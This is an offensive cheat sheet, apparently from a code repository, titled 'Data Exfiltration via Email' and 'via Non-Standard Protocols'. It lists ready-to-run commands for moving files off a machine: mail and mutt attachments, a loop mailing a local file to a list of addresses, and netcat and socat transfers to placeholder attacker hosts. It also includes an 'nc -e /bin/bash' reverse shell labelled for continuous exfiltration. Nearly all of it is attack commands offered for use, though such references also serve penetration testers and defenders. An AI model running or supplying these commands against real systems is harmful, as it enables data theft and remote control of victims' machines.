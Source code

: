 # Data Exfiltration via Email

#### Send Email with Attachment
- **Send email with an attachment:**
	```bash
	echo "Body of the email" | mail -s "Subject" -A /path/to/file recipient@example.com
	```
- **Automate Email Exfiltration:**
	```bash
	for email in $(cat email_list.txt); do     echo "Data: $(cat /path/to/local_file)" | mail -s "Important" $email done
	```

#### Send Email with Mutt (if installed)
- **Send email with an attachment using Mutt:**
	```bash
	echo "Body of the email" | mutt -s "Subject" -a /path/to/file -- recipient@example.com
	```

# Data Exfiltration via Non-Standard Protocols

#### NetCat
- **Send file to a TCP remote server via NetCat:**
	```bash
	cat <file_path> | nc <attack_ip> <attack_port> < /path/to/file
	```
- **Receive file on a TCP remote server via NetCat:**
	```bash
	nc -lvp <attack_port> > <output_file>
	```
- **Create a TCP Reverse Shell for Continuous Data Exfiltration:**
	```bash
	nc -e /bin/bash <remote_ip> <remote_port>
	```
- **Send file to a UDP remote server via NetCat:**
	```bash
	cat <file_path> | nc -u <attack_ip> <attack_port> < /path/to/file
	```
- **Receive file on a UDP remote server via NetCat:**
	```bash
	nc -u -lvp <attack_port> > <output_file>
	```

#### SoCat
- **Send file to a remote server via SoCat:**
	```bash
	socat TCP:<attack_ip>:<attack_port> <file_path>
	```
- **Receive file on a remote server via SoCat:**
	```bash
	socat TCP-LISTEN:<attack_port>,reuseaddr > <output_file>
	```
